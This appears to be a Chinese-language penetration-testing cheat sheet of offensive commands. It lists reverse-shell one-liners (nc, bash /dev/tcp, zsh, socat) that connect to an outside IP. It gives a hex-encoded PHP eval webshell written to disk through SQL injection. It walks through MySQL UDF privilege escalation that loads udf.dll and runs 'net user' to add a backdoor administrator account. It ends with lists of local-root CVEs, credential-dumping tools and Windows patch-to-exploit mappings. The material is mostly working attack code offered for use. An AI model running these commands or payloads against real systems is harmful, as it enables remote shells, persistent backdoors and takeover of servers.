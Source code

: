 ## 反弹shell
```sh
nc -e /bin/bash 192.168.1.2 8080
bash -c 'bash -i >/dev/tcp/192.168.1.2/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  
```
## mssql提权
TODO
## mysql 提权
## UDF提权
虽然MySQL的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对 MySQL 进行一些扩展，这就是可以自行添加的MySQL 的 UDF。

MYSQL5.1及之后的几个版本又多了一个限制：创建函数时所用的DLL只能放在mysql的plugin目录里面，而且这个plugin目录默认是不存在的，可能就是为了防止黑客通过导出文件的方式将DLL来写到这个文件夹，如果导出文件（`into dumpfile`）的目标目录不存在是会报错的。

**所以在导出UDF提权之前 ，先确定一下MYSQL的版本是有必要的**(`select version();`)

## 写入一句话木马

```sql
union select 
0x3c3f70687020406576616c28245f504f53545b2770617373275d293b3f3e,2,3 into 
dumpfile 'c:/www/small.php'

# 以上语句连续执行两次，如果出现以下错误，即说明文件写入成功：
# Invalid Query：File 'c:/www/small.php' already exists
# 第二次写入提示文件已存在则说明文件写入成功
```
## 查看MYsql安装根目录
```sql
select @@basedir;
```
根据 我们前面讲述的MySQL5.1版本及其之后版本，我们自定义函数需要用到的shell导出的目录应该是： 
`C:/Program Files/phpStudy/MySQL/lib/plugin/`

其实也可以通过以下语句获得插件目录(*并不一定真实存在*):
`show variables like '%plugin%';`

## 创建/lib/plugin目录
```sql
select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib::INDEX_ALLOCATION';   
# 利用NTFS ADS创建lib目录

select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin::INDEX_ALLOCATION';
# 利用NTFS ADS创建plugin目录
```

**利用NTFS ADS创建目录成功率很小，这个命令执行返回一直为空，二次执行不提示目录已存在，即可判断目录创建失败。如上图即目录创建失败。**

将udf.dll 导出到plugin目录
```sql
select load_file('C:/www/udf.dll') into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin/udf.dll';
```

通过sql语句通过udf.dll 创建shell函数

```sql
create function shell returns string soname 'udf.dll';
# 假设此时udf.dll被上传到了c:\windows\system32目录

create function shell returns string soname 'C:udf.dll';
# 假设此时udf.dll被上传到了C盘根目录目录

create function shell returns string soname 'udf.dll';
# 假设此时udf.dll被上传到了任意的环境变量目录，如C:\php\
```

### 用法
`shell`函数用于执行系统命令，用法如下
```sql
# 我们尝试在服务器添加一个用户名为`matrix`密码为`matrix`的账户:  

select shell('cmd','net user matrix matrix /add');

# 接着尝试把`matrix`账户添加到`administrators`管理组：  
select shell('cmd','net localgroup administrators matrix /add');  
# 然后查看详细的账户信息，确认是否已经成功添加上账户和账户是否已经被成功添加到管理员组。如下操作：  
select shell('cmd','net user matrix');
```
---

提权完毕之后我们可以通过以下语句删除相关函数以防被他人利用：
```sql
drop function shell;
# 删除函数
delete from mysql.func where name='shell';
# 删除函数
```
## linux 
- CVE-2016-5195 脏牛漏洞
- CVE-2016-8655：Linux内核竞争条件漏洞
- CVE-2017-1000367 sudo本地提权漏洞:selinux必须开

## win
## 系统密码破解
1. getpass.exe 
2. minikz
## 补丁对应漏洞
```
KB2360937 →MS10-084
KB2478960 →MS11-014
KB2507938→ MS11-056
KB2566454→ MS11-062
KB2646524 →MS12-003
KB2645640→ MS12-009
KB2641653→ MS12-018
KB944653 →MS07-067
KB952004 →MS09-012
KB971657 →MS09-041
KB2620712→ MS11-097
KB2393802→ MS11-011
kb942831 →MS08-005
KB2503665 →MS11-046
KB2592799→ MS11-080  
```
